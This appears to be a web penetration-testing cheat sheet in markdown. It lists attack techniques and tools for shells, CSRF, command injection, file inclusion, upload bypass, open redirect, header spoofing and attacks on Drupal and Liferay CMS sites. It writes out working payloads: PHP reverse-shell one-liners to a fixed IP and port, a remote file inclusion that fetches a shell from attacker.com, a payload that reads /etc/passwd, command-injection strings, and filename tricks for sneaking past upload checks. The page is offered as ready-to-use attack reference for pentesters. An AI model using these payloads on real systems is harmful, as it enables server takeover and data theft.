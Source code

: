# WEB

Shells
------

* Reverse shell one-liners:
```
<?php $s=fsockopen(\"192.168.16.124\",1234);exec("sh<%263>%263 2>%263");?>  
<?php $s=fsockopen("192.168.16.124",1234);exec("sh<&3>&3 2>&3") ;?>
```

* [Weevely](https://github.com/epinna/weevely3/) - great command line web shell with good features


XSRF (Cross-site Request Forgery)
---------------------------------

* [CSurfer](https://github.com/asaafan/CSurfer/) - CSRF guard hiding extension for Burp
* [CSRF-Request-Builder](https://github.com/TheRook/CSRF-Request-Builder/) - tool for testing CSRF against web services


Command Injection
-----------------

* Try to use pipe, ampersands, double ampersands, colon: `1 | uname -a & users & id`


File Inclusion
==============

Local File Inclusion
--------------------

Example: `http://localhost/dvwa/vulnerabilities/fi/?page=include.php`  

Remote File Inclusion
---------------------

Example: `http://localhost/dvwa/vulnerabilities/fi/?page=http://google.com/robots.txt`  
* [PHP File Inclusion Overview](https://websec.wordpress.com/2010/02/22/exploiting-php-file-inclusion-overview/)  
* [Uniscan](https://sourceforge.net/projects/uniscan/) - simple RFI, LFI and RCE vulnerability scanner  
* [rfishell](https://github.com/superkojiman/rfishell) - provide a shell-like interface when exploiting RFI vulns  

Exploitation examples:  
```
http://victim.com/i_dont_exist.php?code=<?php file_put_contents("shell.php", file_get_contents("http://attacker.com/shell.txt")) ?>
http://10.0.17.147/wordpress/wp-content/plugins/mygallery/myfunctions/mygallerybrowser.php?myPath=http://10.0.17.145/test/test.txt? //test.txt contains <?php print system("cat /etc/passwd"); ?>
```
When appending questionmark to the end of the payload, the remainder of the local PHP code is treated as a parameter to the RFI included code. Also try multiple questionmarks, nullbytes `%00`.  
Metasploit Web Delivery could also be useful in order to get an interactive shell.


File Upload
-----------

* Image upload restrictions [bypass](http://hackers2devnull.blogspot.lt/2013/05/how-to-shell-server-via-image-upload.html):

```
shell.jpg.php (satisfies as check for jpg only)
shell.jpg.PhP (obfuscation)
shell.php;.jpg (sometimes can ignore whats after ";")
shell.php%0delete0.jpg (the infamous NULL byte which comments out trailing text, remove the word delete so the zeros join together, blogspot strips this string!)
shell.php.test (defaults to first recognised extension ignoring "test")
shell.php.xxxjpg (still ends in .jpg, but not recognised extension so will default to php!)
.phtml (a commonly used php parsed extension often forgotten about!)
.php3/.php4/.php5 (valid PHP extensions possibly left out of extension blacklists)
```

* [evilarc](https://github.com/ptoomey3/evilarc) - creates zip files with dir traversal characters in their embedded path

* Uploading `.htaccess` and remapping filetypes
* Shellcode in filename:
```
.png; ls -la;
; whoami; .png
```

Open Redirect
=============

If parameter takes URL but redirects incorrectly, try adding questionmark in the payload, e..g:   
`http://vulnerable/function?id=1&retURL=http://evil.com/?`

Language-Specific
=================

PHP
---

* [IonCube V8.2 + PHP Auto - Fixer Decoder](http://phpdecode.blogspot.co.at/)


XXE (XML External Entity Injection)
-----------------------------------

* [Preventing XXE in PHP](https://websec.io/2012/08/27/Preventing-XEE-in-PHP.html)

SSL
---

* [SSL Checklist for Pentesters - the Manual Cheatsheet](http://www.exploresecurity.com/wp-content/uploads/custom/SSL_manual_cheatsheet.html)

SSI (Server-Side Include)
-------------------------

`<!--#echo var="DATE_LOCAL" -->`

IP Spoofing
-----------
```
Accept: */*
x-forwarded-for: 127.0.0.1  
x-remote-IP: 127.0.0.1  
x-originating-IP: 127.0.01  
x-remote-addr: 127.0.0.1  
x-remote-ip: 127.0.0.1  
x-forwarded-for 127.0.0.1  
```
Sometimes referer needs to be deleted in the request.

Nikto
-----

Simple scan:

```
perl nikto.pl -host http://www.example.com
```

Browser-Related
---------------

* [Chrome "No Web Security"](https://bugs.chromium.org/p/chromium/issues/detail?id=575690) - Chrome can be started with less web security mode using flag "--disable-web-security"  
* Pentesting plugins: [Firebug](http://getfirebug.com/), [Cookies Manager+](https://addons.mozilla.org/en-US/firefox/addon/cookies-manager-plus/), [FoxyProxy](https://getfoxyproxy.org/), [Tamper Data](https://addons.mozilla.org/en-US/firefox/addon/tamper-data/), [FileStorage Plus!](https://addons.mozilla.org/de/firefox/addon/firestorage-plus/), [NoScript Security Suite](https://addons.mozilla.org/en-US/firefox/addon/noscript/), [HackBar](https://addons.mozilla.org/en-US/firefox/addon/hackbar/)  


Information Leakage
-------------------
```
GET / HTTP/1.0
CONNECTION:CLOSE


```
Send this request using Burp Repeater. Might leak internal IPs, hostnames etc. Note the two newlines after CONNECTION:CLOSE.


CMS-Specific
============

Drupal
------

* [Attacking Drupal](http://www.slideshare.net/heinzarelli/attacking-drupal)
* [DPScan](http://www.ehacking.net/2012/02/dpscan-drupal-security-scanner-tutorial.html)
* [Drupal by Mad Irish](http://www.madirish.net/tag/drupal) - good resource on Drupal vulns
* Find out which version: `domain.com/changelog.txt`

Liferay
-------

* [LiferayScan](https://github.com/bcoles/LiferayScan) - simple remote scanner for Liferay Portal
* [Hacking Liferay CMS](http://realpentesting.blogspot.co.at/2013/01/hacking-liferay-cms.html) - version 6.06
* [Liferay Portal Security Research](http://www.procheckup.com/media/194945/liferay.pdf) - version 6.05
* [Liferay Portlet Shell](https://www.insinuator.net/tag/liferay/)
* [Liferay 6.1 can be compromised in its default configuration](http://seclists.org/bugtraq/2012/Apr/151)
* [Liferay Portal 7.0.x <= 7.0.2 - Pre-Auth RCE Exploit](http://0day.today/exploit/23043)
* [Hacking LifeRay CMS](http://realpentesting.blogspot.co.at/2013/01/hacking-liferay-cms.html)
* [Hacking Liferay](http://blog.etapix.com/2013/02/hacking-liferay-securing-against-online.html)
